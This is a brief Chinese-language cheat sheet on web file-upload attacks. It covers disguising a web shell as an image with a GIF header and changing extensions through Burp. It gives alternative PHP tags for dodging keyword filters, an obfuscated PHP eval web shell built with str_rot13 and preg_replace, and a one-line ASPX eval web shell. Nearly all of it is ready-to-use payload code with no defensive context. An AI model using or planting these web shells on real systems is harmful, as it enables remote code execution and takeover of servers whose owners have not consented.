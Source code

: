 # Upload

* ### 上传图片马

burp抓包更改后缀（php，html，js，aspx）

注意文件头：

```
GIF98a //GIF文件头
```

* #### 关键字屏蔽绕过：

```
<?php=
```

```
<?php

?>
```

```
<script language="php"></script>
```

上面的三句话等价

屏蔽eval、assert等木马关键字时，通过加密解密进行绕过

```
<?php 
$exp = $_POST['shell'];
@preg_replace('/ad/e','@'.str_rot13('riny').'($exp)', 'add');
?>    //等同于php一句话<?php eval($_POST[shell]);?>
```

aspx木马

```
<%@ Page Language="Jscript"%><%eval(Request.Item["shell"],"unsafe");%>
```



